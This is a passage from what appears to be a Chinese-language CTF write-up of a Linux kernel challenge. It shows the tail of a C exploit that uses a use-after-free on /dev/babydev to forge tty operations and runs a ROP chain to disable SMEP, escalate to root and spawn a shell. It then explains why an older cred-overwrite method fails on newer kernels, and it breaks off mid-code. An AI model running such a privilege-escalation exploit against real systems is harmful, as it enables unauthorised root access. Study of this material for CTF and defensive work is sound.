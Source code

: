 ```c
    size_t rop[0x20], p = 0;
    rop[p++] = POP_RDI_RET;
    rop[p++] = 0x6f0;
    rop[p++] = MOV_CR4_RDI_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = getRootPrivilige;
    rop[p++] = SWAPGS_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = IRETQ_RET;
    rop[p++] = getRootShell;
    rop[p++] = user_cs;
    rop[p++] = user_rflags;
    rop[p++] = user_sp;
    rop[p++] = user_ss;

    size_t fake_op[0x30];
    for(int i = 0; i < 0x10; i++)
        fake_op[i] = MOV_RSP_RAX_DEC_EBX_RET;

    fake_op[0] = POP_RAX_RET;
    fake_op[1] = rop;

    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    size_t fake_tty[0x20];
    int fd3 = open("/dev/ptmx", 2);
    read(fd2, fake_tty, 0x40);
    fake_tty[3] = fake_op;
    write(fd2, fake_tty, 0x40);

    write(fd3, buf, 0x8);

    return 0;
}
```

### Old Solution

这道题在当年的解法是**通过 UAF 修改该进程的 cred 结构体的 uid、gid 为0**，十分简单十分白给。

但是**此种方法在较新版本 kernel 中已不可行，我们已无法直接分配到 cred\_jar 中的 object**，这是因为 cred\_jar 在创建时设置了 `SLAB_ACCOUNT` 标记，在 `CONFIG_MEMCG_KMEM=y` 时（默认开启）**cred\_jar 不会再与相同大小的 kmalloc-192 进行合并**

> 来自内核源码 4.5 `kernel/cred.c`
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
> 			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
> }
> ```
>
> 本题（4.4.72）：
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */